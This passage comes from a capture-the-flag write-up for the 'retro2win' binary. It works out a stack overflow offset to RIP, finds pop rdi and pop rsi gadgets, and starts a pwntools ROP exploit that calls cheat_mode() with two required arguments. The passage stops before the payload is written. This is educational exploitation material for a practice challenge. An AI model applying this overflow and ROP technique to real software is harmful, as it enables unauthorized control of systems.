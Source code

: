 As we have seen when we enter a string **`helloiloveyou`** then our input will be at **`0x7fffffffdaf0`** and what we want is to control **`RIP(0x7fffffffdb0)`** to have control over the execution flow of the program

So our offset from input to **RIP** is **0x18 (24)** byte

```python
>>> hex(0x7fffffffdb08- 0x7fffffffdaf0)
'0x18'
```

But there is one thing after we have controlled RIP, that is the condition in the function **cheat\_mode()**

```c
if ( a1 != 0x2323232323232323LL || a2 != 0x4242424242424242LL )
    return puts("Unauthorized access detected! Returning to main menu...\\n");

```

So we have to somehow call those 2 params **`cheat_mode(0x2323232323232323, 0x4242424242424242)`**

A quick word about **x86_64 calling conventions**. When we call a function, its first **6 arguments** will be stored by **registers** in the order **RDI, RSI, RDX, RCX, R8, R9;** and the following **arguments** will be put into the stack from right to left (because the stack is a LIFO structure). So we will set **RDI = 0x2323232323232323** and **RSI = 0x424242424242424**2 before entering **cheat_mode()**

To do this, we will use a ROP chain

```bash
➜  challenge ROPgadget --binary retro2win > gadgets
➜  challenge cat gadgets | grep "pop rdi"
0x00000000004009b3 : pop rdi ; ret
➜  challenge cat gadgets | grep "pop rsi"
0x00000000004009b1 : pop rsi ; pop r15 ; ret
```

With that much information, we will start writing the exploit for this article.

#### Exploit

Since after pop rsi there will be **pop r5**, it will still be fine to use this gadget and **r5** is not a problem for us. But we still need to fill the stack so it doesn't put **cheat_mode()** into **r15** we just need to replace it with **dummy_value**

```python
#!/usr/bin/python3

from pwn import *

# context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-v', '-p', '90']
exe = context.binary = ELF('./retro2win', checksec=False)

# Shorthanding functions for input/output
info = lambda msg: log.info(msg)
s = lambda data: p.send(data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
sla = lambda msg, data: p.sendlineafter(msg, data)
sn = lambda num: p.send(str(num).encode())
sna = lambda msg, num: p.sendafter(msg, str(num).encode())
sln = lambda num: p.sendline(str(num).encode())
slna = lambda msg, num: p.sendlineafter(msg, str(num).encode())
r = lambda: p.recv
rl = lambda: p.recvline()
rall = lambda: p.recvall()

# GDB scripts for debugging
```